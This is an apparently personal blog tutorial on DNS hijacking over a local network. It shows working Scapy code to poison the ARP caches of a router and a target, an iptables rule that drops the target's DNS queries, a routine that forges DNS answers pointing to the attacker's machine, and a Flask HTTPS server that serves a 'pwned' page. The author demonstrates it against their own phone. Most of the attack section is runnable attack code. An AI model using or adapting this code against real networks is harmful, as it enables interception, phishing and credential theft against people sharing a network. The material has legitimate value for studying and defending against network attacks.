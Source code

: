 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous post, we had a look at poisoning ARP caches which allowed us to intercept messages
being sent to and from the target. In this post, we utilize that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Everytime a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. To translate the URL into an IP address, the following steps take place:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it will query the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver will also check if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retreived, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Since we need the target's traffic to pass through our system, we need to poison both the router's and target's ARP cache. This can be done in the following manner.

```python
# Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

# Poison target's cache
send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

# Sleep to prevent flooding
time.sleep(2)
```

Once we poison the ARP caches, the target's traffic passes through our system. Now we can control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send an HTTP request to our machine. We can stop forwarding all DNS messages in the following manner.

```python
print("Enabling IP forwarding")
# Check to see if we are on linux
if (platform.system() == "Linux"):
	# Enable IP forwarding
	ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
	ipf_read = ipf.read()
	if (ipf_read != '1\n'):
		ipf.write('1\n')
	ipf.close()

	# Disable DNS Query forwarding
	firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
	Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all the DNS messages are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to DOS since the target will not be able to resolve the URL to any IP address. We can send a spoofed DNS answer in the following manner.

```python
if (pkt[IP].src == g_target_ip and
		pkt.haslayer(DNS) and
		pkt[DNS].qr == 0 and				# DNS Query
		pkt[DNS].opcode == 0 and			# DNS Standard Query
		pkt[DNS].ancount == 0				# Answer Count
		):

	print("Sending spoofed DNS response")

	if (pkt.haslayer(IPv6)):
		ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
	else:
		ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

	# Create the spoofed DNS response (returning back our IP as the answer instead of the endpoint)
	dns_resp =  ip_layer/ \
				UDP(
					dport=pkt[UDP].sport,
					sport=53
					)/ \
				DNS(
					id=pkt[DNS].id,					# Same as query
					ancount=1,						# Number of answers
					qr=1,							# DNS Response
					ra=1,							# Recursion available
					qd=(pkt.getlayer(DNS)).qd,		# Query Data
					an=DNSRR(
						rrname=pkt[DNSQR].qname,	# Queried host name
						rdata=g_server_ip,	# IP address of queried host name
						ttl = 10
						)
					)

	# Send the spoofed DNS response
	print(dns_resp.show())
	send(dns_resp, verbose=0)
	print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be shown using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
	return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
	app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
the host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will be return the html given above.

# Results
I am running the dns-hijacker and the web server on a Raspberry PI 3B+ with the target as my iPhone.

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Once the DNS hijacker and the web server are started, sending a request from my iPhone results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `victoria.dev` was successfully redirected to our webpage. yaaa.
That's it for this post. The full script is available on my github [page][page].

[page]: https://github.com/venkat-abhi/dns-redirector